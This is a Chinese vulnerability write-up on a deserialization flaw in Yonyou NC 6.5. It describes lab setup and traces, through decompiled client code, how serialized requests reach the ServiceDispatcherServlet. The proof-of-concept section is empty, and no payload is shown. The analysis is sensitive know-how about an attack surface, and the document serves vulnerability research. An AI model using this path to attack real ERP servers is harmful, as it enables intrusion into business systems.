用友nc 6.5 反序列化漏洞
=======================

一、漏洞简介
------------

二、漏洞影响
------------

用友nc 6.5

三、复现过程
------------

### 环境搭建

-   1.执行NC安装包根目录下setup.bat文件（要求安装盘同级目下有ufjdk文件或者设置JAVA\_HOME环境变量），安装时，出现如下图界面;



-   2.选择安装的产品，这里我只安装了部分与NC相关的模块。下面对NC产品模块做个简要说明;

```{=html}
<!-- -->
```
    nc_uap              客户化
    nc_portal           企业门户
    nc_pd               工程基础数据
    nc_fi               财务会计
    nc_tpb              全面计划预算
    nc_co_cm            管理会计
    nc_tm               资金管理
    nc_scm              供应链管理
    nc_qc               质量管理
    nc_am               资产管理
    nc_mm               生产制造
    nc_hr               人力资源
    nc_hr_pd            人力资源预制
    nc_iufo             网络报表含合并报表
    nc_xbrl             集团报表XBRL

-   3.至此NC已安装完成，接下来创建Oracle用户;

```{=html}
<!-- -->
```
    SQL> create user NCV6.5 identified by 1 default tablespace nnc_data01 temporary tablespace temp; 
    SQL> grant dba,connect to NCV6.5;

-   4.配置sysConfig，产品安装完成之后会自动进入系统配置界面;

```{=html}
<!-- -->
```
-   服务器类型选择UAP SERVER。点击服务器信息→读取，如下图：



-   进入"数据源页签"→"读取"→"添加",将NC
    V6.5作为账套数据源，数据库类型选择ORACLE11G，添加数据源名称，不能包含中文。配置数据库地址、用户名密码、失效链接检查周期、prepareStatement缓存数等信息，完成后点击测试，如果提示测试通过则表示NC能够与数据库连通，保存即可。



-   进入"安全日志数据源页签"→"读取"，初始化数据源，初始化完成后点击"确定"。



-   进入"部署"→"全选"→"部署EJB"， 此处用于生成、部署EJB，如下图所示：



-   进入"文件服务器"→"读取"，此处添加服务器ip地址，端口，存储路径，及选择元数据仓库,如下图所示：


5.环境搭建完成。因为通过浏览器访问的方式需要依赖不同用户设备上的Java版本以及系统配置等环境因素，所以为了避免这些不必要的麻烦，可以使用专用浏览器UClient来解决此问题。



### 漏洞分析

下载UClient并安装后，进入启动页面，选择添加应用。


在其安装目录里发现了NCLogin65.jar，通过对其反编译进行查看发现，它里面只是一些界面和登录逻辑代码，主要的通信代码并不在该jar包中。



继续在其他目录下的寻找，发现该目录(nc\_client\_home\\NCCACHE\\CODE)中的子目录含有许多jar包，其中external目录中的jar包是负责客户端与服务端之间通信的逻辑代码。



通过对登录流程的动态调试，最后找到了对应的类(nc.login.ui.LoginUISuppor)，并定位到该类中处理登录请示的方法(getLoginRequest())



执行getInstance()，获取NCLocator的实例，然后执行NCLocator实例的lookup()方法



查看nc.bs.framework.common.NCLocator\#getInstance(java.util.Properties)


    //nc.bs.framework.common.NCLocator#getInstance
    locator = (NCLocator)locatorMap.get(key);
          if (locator != null) {
              return locator;
          } else {
              if (!isEmpty(locatorProvider)) {
                  locator = newInstance(locatorProvider);
              } else if (!isEmpty(svcDispatchURL)) {
                  locator = newInstance("nc.bs.framework.rmi.RmiNCLocator");
              } else {
                  locator = getDefaultLocator();
              }

              locator.init(props);
              locatorMap.put(key, locator);
              return locator;
          }

由于程序刚启动的时候locatorMap的值为空，则会进入下面的分支语句中去判断locatorProvider值，而此时又因为locatorProvider的值为空，svcDispatchURL的值(http://ip:port/ServiceDispatcherServlet)不为空，所以会创建RmiNCLocator实例，将其存放至locatorMap中。获取到RmiNCLocator实例后，查看其lookup()方法：


继续跟进nc.bs.framework.server.RemoteMetaContext\#lookup()：



从proxyMap中查看是否存在参数name，如果存在则直接返回，不存在则进入下面的分支。查看getMetaOnDemand()方法：



可以看到当metaV0值为空的时候，又调用了this.remoteMetaContext.lookup()方法，在当前类中搜索remoteMetaContext，发现在类构造函数中创建了一个代理并将其赋值到this.remoteMetaContext：

    //nc.bs.framework.rmi.RemoteContextStub#RemoteContextStub
    public RemoteContextStub(String dispatchURL, String module) throws ComponentException {
          ComponentMetaVO metaVO = new ComponentMetaVO();
          metaVO.setInterfaces(new String[]{Context.class.getName()});
          if (module != null) {
              metaVO.setModule(module);
              metaVO.setName("nc.bs.framework.server.RemoteMetaContext." + module);
          } else {
              metaVO.setName("nc.bs.framework.server.RemoteMetaContext");
          }

          this.namedMetasMap.put(metaVO.getName(), metaVO);
          Address url = null;

          try {
              url = new Address(dispatchURL);
          } catch (MalformedURLException var6) {
              throw new ComponentException("invalid url: " + dispatchURL);
          }

          this.defRas = new SimpleRemoteAddressSelector(url);
          this.remoteMetaContext = (Context)RemoteProxyFactory.getDefault().createRemoteProxy(RemoteContextStub.class.getClassLoader(), metaVO, this.defRas);
          this.proxyMap.put(metaVO.getName(), this.remoteMetaContext);
          this.dispatchUrl = url;
          this.module = module;
          this.init();
      }

通过java代理的相关知识可以知道，无论调用代理对象的任何方法，该方法都会调用处理器的invoke方法，在本程序中即是nc.bs.framework.rmi.RemoteInvocationHandler\#invoke：

    //nc.bs.framework.rmi.RemoteInvocationHandler#invoke
    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {
          String mn = method.getName();
          Class<?>[] ps = method.getParameterTypes();
          if (mn.equals("equals") && ps.length == 1 && ps[0].equals(Object.class)) {
              Object value = args[0];
              if (value != null && Proxy.isProxyClass(value.getClass())) {
                  Object h = Proxy.getInvocationHandler(value);
                  return !(h instanceof RemoteInvocationHandler) ? Boolean.FALSE : this.meta.equals(((RemoteInvocationHandler)h).meta) && this.ras.equals(((RemoteInvocationHandler)h).ras);
              } else {
                  return Boolean.FALSE;
              }
          } else if (mn.equals("hashCode") && ps.length == 0) {
              return this.meta.hashCode() + 27 * this.ras.hashCode();
          } else if (mn.equals("toString") && ps.length == 0) {
              return this.meta.toString();
          } else {
              return method.getDeclaringClass() == RemoteProxy.class ? method.invoke(this, args) : this.sendRequest(method, args);
          }
      }

此时mn的值为"lookup"，因此会进入最后一条分支语句中，又因为二者不等，最终会执行this.sendRequest(method,
args)方法

    //nc.bs.framework.rmi.RemoteInvocationHandler#sendRequest
    public Object sendRequest(Method method, Object[] args) throws Throwable {
          InvocationInfo ii = this.newInvocationInfo(method, args);
          Address old = null;
          int retry = 0;
          ConnectorFailException error = null;

          do {
              Address target = this.ras.select();
              if (old != null) {
                  Logger.error("connect to: " + old + " failed, now retry connect to: " + target);
                  if (old.equals(target)) {
                      try {
                          Thread.sleep(this.retryInterval);
                      } catch (Exception var13) {
                          ;
                      }
                  }
              }

              this.restoreToken(ii, target);

              try {
                  Object var8 = this.sendRequest(target, ii, method, args);
                  return var8;
              } catch (ConnectorFailException var14) {
                  ++retry;
                  old = target;
                  error = var14;
              } finally {
                  this.storeToken(ii, target);
              }
          } while(retry < this.retryMax);

          throw error;
      }

跟进this.sendRequest(target, ii, method, args)：



可以看到该方法中将 ii
序列化输出，发送到服务端，然后获取服务端返回的反序列化结果并回显到客户端。

### poc

